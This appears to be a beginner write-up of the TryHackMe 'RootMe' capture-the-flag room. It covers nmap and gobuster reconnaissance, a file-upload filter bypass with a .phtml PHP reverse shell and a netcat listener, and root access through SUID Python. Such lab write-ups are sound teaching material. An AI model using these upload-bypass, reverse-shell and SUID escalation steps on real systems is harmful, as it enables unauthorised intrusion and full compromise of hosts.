








---

## Challenge Overview
Hi everyone! RootMe room on TryHackMe is a straightforward beginner-level boot2root challenge.

Before starting, let’s add the IP to our hosts file by using:
`sudo echo "<ip> rootme.thm" >> /etc/hosts`

## **Recon**
### **Nmap Enumeration**
Let’s start with our Nmap scan, and we see that two ports are open: 22(ssh) and 80(http).
```bash
# Nmap 7.94SVN scan initiated Sun Nov 17 13:37:30 2024 as: nmap -A -O -vv -T4 -oN rootme-ports.txt rootme.thm
Nmap scan report for rootme.thm (10.10.123.12)
Host is up, received reset ttl 60 (0.19s latency).
Scanned at 2024-11-17 13:37:30 PST for 40s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0G0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/17%OT=22%CT=1%CU=40407%PV=Y%DS=5%DC=T%G=Y%TM=673
OS:98142%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(
OS:SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11N
OS:W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508
OS:NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R
OS:=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=
OS:AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=
OS:40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID
OS:=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 25.901 days (since Tue Oct 22 16:00:20 2024)
Network Distance: 5 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   32.27 ms  10.17.0.1
2   ... 4
5   199.43 ms rootme.thm (10.10.123.12)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 17 13:38:10 2024 -- 1 IP address (1 host up) scanned in 40.40 seconds
```

From the Nmap result, we see that SSH is running on port 22 and Apache web server is running on port 80.
Let’s look at the web page.
<br>



### **Directory Enumeration**
Let’s run a Gobuster scan and see if we find something interesting.

```bash
gobuster dir -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://rootme.thm/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/unknown/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
```

`/panel` and `/uploads` look interesting.

## **Shell as www-data**
Let’s visit /panel first.



We can see a file inclusion form available there. While trying to upload our PentestMonkey PHP reverse shell (you can get that from [revshells.com](https://www.revshells.com/), an awesome tool for generating different reverse shells), 
we encounter the error: PHP não é permitido!, which translates to PHP is not allowed!



So, let’s try some file extension bypass methods. You can check the details in [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload).
After testing several extensions, we discover that the `.phtml` extension is accepted.



After successfully uploading the reverse shell, we navigate to `/uploads` and find our uploaded reverse shell file.



Now, we run Netcat on the port mentioned in the file with the command:
`nc -lnvp <port>`

Once ready, we go to the `/uploads` page and click on our file.

Boom!! We get a reverse shell as `www-data`.

To upgrade our shell, we use:
`python -c 'import pty; pty.spawn("/bin/bash")'`

Here, we use the command `find / -name user.txt -type f 2>/dev/null` to find our first flag located in `/var/www/user.txt`




## **Shell as root**

Now, let’s aim for privilege escalation. We search for files with SUID permissions using:

`find / -user root -perm /4000 2>/dev/null`




From the results, we notice that `/usr/bin/python` has SUID permissions. Let’s try to leverage it to gain a root shell.
Referring to [GTFOBins](https://gtfobins.github.io/gtfobins/python/), we find that we can execute the following command to get a root shell:

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

Yahoo!! We successfully escalate our privileges and gain a root shell.
Finally, we can find the root flag in `/root/root.txt`.



Happy h4ck1ng!!